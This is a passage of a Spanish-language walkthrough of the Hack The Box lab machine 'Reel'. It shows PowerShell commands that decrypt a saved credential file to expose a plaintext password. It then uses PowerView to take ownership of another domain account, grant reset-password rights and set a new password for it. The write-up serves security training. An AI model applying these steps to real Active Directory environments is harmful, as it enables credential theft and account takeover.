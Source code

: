 ```null
  </Obj>
</Objs>
```

```null
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

Como está el SSH abierto no es necesario crear unas PSCredentials

```null
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.                                                                            

tom@REEL C:\Users\tom>  
```

Esta máquina tiene una auditoria interna ya realizada. En un documento de texto pone que no hay forma de convertirse en ```Domain Admin```

```null
PS C:\Users\tom\Desktop\AD Audit> type note.txt                                                                                 
Findings:                                                                                                                       

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                                  

Maybe we should re-run Cypher query against other groups we've created.    
```

Hay un archivo en formato CSV, que se puede abrir con ```libreoffice```. Lo transfiero a mi equipo para analizarlo. El usuario ```tom``` tiene ```WriteOwner``` sobre ```claire``` 

<img src="/writeups/assets/img/Reel-htb/3.png" alt="">

Primero hay que crear un objeto y luego ya retocarle las ACLs

```null
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -Rights ResetPassword -PrincipalIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $SecPassword = ConvertTo-SecureString 'pwned123$!' -AsPlainText -Force             
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $SecPassword 
```
